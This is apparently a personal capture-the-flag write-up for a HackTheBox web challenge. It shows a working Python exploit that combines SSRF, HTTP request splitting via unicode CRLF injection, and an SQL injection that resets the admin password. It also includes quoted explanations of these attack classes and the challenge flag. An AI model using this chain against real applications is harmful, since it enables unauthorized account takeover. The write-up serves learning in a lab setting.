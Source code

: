 index.js checks if socket remoteaddress isn't:
127.0.0.1 return status(401)

there's a db somewhere.
some app is listening on port 80?

vulnerability:
SSRF, SQL injection
```
Path Point:
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}
```
code:
```py
import requests

url = "http://178.62.106.4:31814"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='


city='test'
proxies={'http':'http://127.0.0.1:8080'};
country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json,proxies=proxies);
```

This took me a long time to guess why the code won't work(yes i stole it from writeup but atleast i took research of SSRF first before i used it)
Apparently, i had to send the proxy data to repeater in order for it to work and then refresh the login webdirectory and see if it gave you the flag or
u can just login again.

this is either SSRF or request splitting but either way i'll try to explain this:

SSRF:
```
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. 
In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.
                                                                                                                                                                                                                                        --PortSwigger
```

SSRF uses a parameter(it can be endpoint or an API parameter, any parameter) that uses a http request to send information to that specified url, and retrieve
the contents of it:
```
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}

PortSwigger:
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Though, i'd rather call this as the network point or path point.

if we update the parameter or path point to:
```
stockApi=http://localhost/admin
```
this gives us the admin console or the contents of the admin webdirectory, we can visit the directory but it will be blocked or it won't show.

Request Splitting:
```
HTTP Request Splitting is an attack that enables forcing the browser to send arbitrary HTTP requests, inflicting XSS and poisoning the browser's cache. 
The essence of the attack is the ability of the attacker, once the victim (browser) is forced to load the attacker's malicious HTML page, to manipulate 
one of the browser's functions to send 2 HTTP requests instead of one HTTP request. Two such mechanisms have been exploited to date: 
the XmlHttpRequest object (XHR for short) and the HTTP digest authentication mechanism. For this attack to work, the browser must use a forward HTTP proxy 
(not all of them "support" this attack), or the attack must be carried out against a host located on the same IP (from the browser's perspective) with the 
attacker's machine.
                                    ----Webappsec.org

PortSwigger:
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or 
more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to 
sensitive data, and directly compromise other application users.
                                    -----PortSwigger

My Explanation:
Request Splitting, as what it says in the name is the ability to send 2 request instead of one request via vulnerable parameters to gain access or to hold
sensitive data.
```

Explanation of the source code:
```
the endpoint was found from the files downloaded, provided by the HTB(weather App).
It is vulnerable to SSRF; and it is also vulnerable to Request Splitting

the proxy and the endpoint variable is the only thing important to explain the code.
as explained at the top: the endpoint in the code was vulnerable because there was no sanitization

The register was vulnerable to SQL injection( never tried the login )

the proxy is important because this is where we will need to get the retrieved data. The proxy acts as a middle man
between the connection line.

You can use burp suite as your proxy in the code to retrieve the information; and send the request again to repeater.
```

Source:

https://portswigger.net/web-security/request-smuggling
http://projects.webappsec.org/w/page/13246929/HTTP%20Request%20Splitting


```Proof Of Concept(PoC):
Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}```
![logo](Capture.jpg)
![logo](Capture2.png)
![logo](unkown.png)
